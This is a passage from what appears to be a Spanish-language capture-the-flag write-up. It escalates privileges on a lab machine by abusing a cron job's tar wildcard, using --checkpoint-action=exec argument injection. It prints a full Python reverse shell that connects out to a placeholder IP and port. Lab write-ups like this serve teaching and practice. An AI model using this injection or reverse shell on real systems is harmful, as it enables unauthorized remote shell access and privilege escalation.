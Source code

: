 Esperaremos más o menos un minuto (lo que tarda en ejecutarse el cron), y veremos que se ejecuta un script de forma automática.

```
2021/04/14 18:09:01 CMD: UID=1000 PID=1938   |
2021/04/14 18:09:01 CMD: UID=1000 PID=1939   | /bin/bash /home/batman/.web/script.sh
2021/04/14 18:09:01 CMD: UID=1000 PID=1940   | tar -zcf /tmp/web.tar.gz batflat index.nginx-debian.html robots.txt
2021/04/14 18:09:01 CMD: UID=1000 PID=1941   | tar -zcf /tmp/web.tar.gz batflat index.nginx-debian.html robots.txt
```

Esto significa que el usuario con UID 1000 (batman), ejecuta ese binario cada un minuto, así que vamos a ver qué binario ejecuta y qué es lo que está haciendo realmente.

```sh
www-data@waynemanor:~$ cat /home/batman/.web/script.sh
#!/bin/bash

cd /var/www/html && tar -zcf /tmp/web.tar.gz *

#TO DO: Improve the script.
```

Como vemos, con la herramienta _tar_ hace un backup de toda la página web (*), así que, al usar el asterisco para refererirse a todos los archivos, podremos abusar de esa mala configuración de el _wildcard_ (más información [aquí](https://int0x33.medium.com/day-67-tar-cron-2-root-abusing-wildcards-for-tar-argument-injection-in-root-cronjob-nix-c65c59a77f5e) y [aquí](https://gtfobins.github.io/gtfobins/tar/#sudo)).

Resumiendo, lo que vamos a hacer es añadirle dos argumentos al script del cron, para que ejecute un binario que nosotros le indiquemos.

Este es el script original:

```sh
tar -zcf /tmp/web.tar.gz *
```

Y gracias al _wildcard_ (asterisco) le añadiremos dos argumentos que nos ejecutarán un binario malicioso:

```sh
tar -zcf /tmp/web.tar.gz --checkpoint=1 --checkpoint-action=exec=python3 privesc.py
```

¿Cómo? Creando dos archivos en el directorio _/var/www/html_.

Lo primero que haremos será crear una reverse shell en _python_ (más información [aquí](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/).

Contenido de _privesc.py_ en el directorio _/var/www/html_:

```py
import socket
import os
import subprocess

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("<ip>",<puerto>));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/bash","-i"]);
```


[exploitdb]: https://www.exploit-db.com/exploits/49573